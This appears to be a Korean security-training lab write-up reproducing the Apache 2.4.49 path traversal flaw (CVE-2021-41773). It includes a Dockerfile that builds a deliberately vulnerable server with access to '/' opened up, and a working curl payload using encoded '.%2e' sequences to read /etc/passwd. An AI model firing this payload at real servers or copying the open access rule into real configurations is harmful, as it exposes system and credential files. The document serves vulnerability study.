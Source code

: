 # Apache HTTP Server Path Traversal (CVE-2021-41773)  
화이트햇 스쿨 3기 – 조민규 (@oureukk)

---

## 요약
- Apache HTTP Server 2.4.49 버전의 `mod_cgi` 경로 검증 로직에 결함이 있어, URL 인코딩된 `..` 시퀀스를 통해 문서 루트 밖의 임의 파일을 읽을 수 있음.  
- 공격자는 `/etc/passwd` 같은 시스템 파일은 물론, 웹 서버가 읽을 수 있는 모든 파일을 노출시킬 수 있음.  

---

## 환경 구성 및 실행

1. **Dockerfile 작성**  
   `Dockerfile`:
   ```dockerfile
   FROM httpd:2.4.49

   # bash 및 기타 유틸 설치
   RUN apt-get update && apt-get install -y bash

   # 간단한 CGI 스크립트 생성
   RUN printf '%s\n' '#!/bin/bash' 'echo "Content-type: text/plain"' 'echo' 'echo "Hello from CGI"' \
       > /usr/local/apache2/cgi-bin/hello.sh \
     && chmod +x /usr/local/apache2/cgi-bin/hello.sh

   #루트파일도 읽히도록 액세스 제어 변경
   RUN printf '%s\n' \
    '<Directory "/">' \
      '    Require all granted' \
    '</Directory>' \
    >> /usr/local/apache2/conf/httpd.conf
  '''
  
2. docker-compose.yml 작성  
   **docker-compose.yml**:  
   ```yaml
   version: "3.8"
   services:
     apache-vuln:
       build: .
       ports:
         - "8080:80"

3. 컨테이너 빌드 및 실행  

   '''bash
   docker-compose up -d --build
   '''
   
4. 정상 동작 확인  
   
   '''bash
   curl -i http://localhost:8080/cgi-bin/hello.sh
   '''
   
5. 취약점 Poc 호출  
   
   '''bash
   curl -i "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"
   '''
   
---

## 결과
![image](https://github.com/user-attachments/assets/8241770b-6b3f-45b4-b8df-9ddbf5f97b4a)

- 'HTTP/1.1 200 OK'
- '/etc/passwd' 파일의 내용 출력 ( 경로 검증이 우회됨)
  
---

## 정리
- 취약 원인: Apache 2.4.49에서 URL 디코딩 후 경로 검증을 우회할 수 있어, .. 인코딩 시퀀스를 통해 문서 루트를 넘어선 파일 액세스가 허용됨.

- 영향도: 웹 서버가 읽을 수 있는 모든 시스템 파일 및 애플리케이션 파일 정보 노출 → 정보 유출, 내부 구조 파악, 추가 공격 발판 제공

---
